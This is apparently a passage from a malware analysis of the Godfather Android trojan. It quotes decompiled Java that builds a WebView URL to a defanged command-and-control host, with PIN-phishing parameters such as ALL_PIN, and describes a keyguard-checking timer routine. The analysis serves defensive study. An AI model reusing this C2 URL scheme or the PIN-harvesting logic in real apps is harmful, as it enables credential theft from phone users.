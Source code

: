 

Analyzing the “construction” of the url will be:
Within the method wv.loadrl:



```Java

wv.loadUrl(
    Tamarix.Uriiah(Tamarix.bedamned(this, "min")) + 
    "rx/f.php?f=" + str + 
    "&p=" + Tamarix.bedamned(getApplicationContext(), "ky") + 
    "|" + Locale.getDefault().getLanguage().toLowerCase()
);


```
Tamarix.Uriiah(Tamarix.bedamned(this, "min")):
Uriiah method takes a value obtained from Tamarix.bedamned(this, "min") and returns a fixed part of the URL.
So https://yukoramparata[.]top/zamra/aaa/
"rx/f.php?f=" + str: adds the parameters “f” with the value obtained from the intent (str).
"&p=" + Tamarix.bedamned(getApplicationContext(), "ky"): adds the parameter “p” with a value obtained from  Tamarix.bedamned.

"|" + Locale.getDefault().getLanguage().toLowerCase(): Adds the device language as a parameter in the URL.
The parameters str and id could be generated by speculatd function (in detalis below).
Below the code of the speculated function


```Java

                        Intent dialogIntent = new Intent(ctx, untraffickable.class)
                            .putExtra("str", "ALL_PIN")
                            .putExtra("id", "1500");



```

The result:
https://yukoramparata[.]top/zamra/aaa/rx/f.php?f=ALL_PIN&p=0hh2fpkr5zt72|en




#### Speculated

{{< image src="img/2025-03-14-godfather-android-analysis/img23.png" caption="Figure 23 - Speculated Class" wrapper="text-center">}} 

The function gets an instance of KeyguardManager, it checks whether the device is locked using the isKeyguardLocked() 
If the device is not locked (locked is false), the function creates a Timer object. 
It defines an anonymous TimerTask that performs a periodic task 

